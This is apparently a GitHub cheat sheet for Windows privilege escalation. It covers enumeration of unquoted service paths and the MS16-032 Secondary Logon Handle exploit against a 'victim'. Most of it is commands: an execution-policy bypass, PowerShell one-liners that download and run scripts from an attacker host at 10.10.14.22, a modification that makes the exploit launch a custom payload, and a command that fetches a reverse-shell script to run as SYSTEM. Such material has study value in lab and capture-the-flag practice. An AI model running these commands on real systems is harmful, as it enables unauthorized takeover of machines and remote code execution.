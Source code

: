 ```cmd
wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
```
Or do
```cmd
echo %path%
accesschk.exe -dqv "C:\Python27"
 ```
on any non default directories, often times you will find python here for example.



### MS16-032 Secondary Logon Handle

This script by Fuzzysecurity is amazing https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1, but might need a few changes as you can either modify it to run your own specified binary or run as is to spawn a cmd shell, which sometimes doesn't work unless you already have an RDP session on the victim. The target also needs to have 2+ CPU cores so this will fail often on vm boxes.

To check if the machine is patched 
```cmd
wmic qfe list | find "3139914"
```

First off to just run it as usual upload the script to the victim and do this
```powershell
powershell -nop -ep bypass
Import-Module C:\Users\Victim\Desktop\MS16-032.ps1
Invoke-MS16-032
```
Or you can try running it remotely from a normal windows shell this may not work unless its over RDP.
```powershell
powershell -c `iex ((new-object net.webclient).downloadstring('http://10.10.14.22:8000/Invoke-MS16-032.ps1')); Invoke-MS16-032`
```

To have it call something other than the cmd.exe payload, modify this path located in the middle of Fuzzysec's script. This seems to be reliable with any msf payload.
```powershell
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
$CallResult = [Advapi32]::CreateProcessWithLogonW(
"user", "domain", "pass",
0x00000002, "C:\Users\740i\Desktop\danger.exe", "",
0x00000004, $null, $GetCurrentPath,
[ref]$StartupInfo, [ref]$ProcessInfo)
```
There is also a custom binary from Meatballs that will just spawn a command prompt as system. https://github.com/Meatballs1/ms16-032

The Powershell empire version will take a -Command flag that makes it easy to run it against another reverse shell or a local command to escalate privileges. 
https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1

```powershell
powershell.exe -nop -ep bypass
Import-Module C:\Users\740i\Desktop\Invoke-MS16032.ps1
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/shell.ps1')"
```
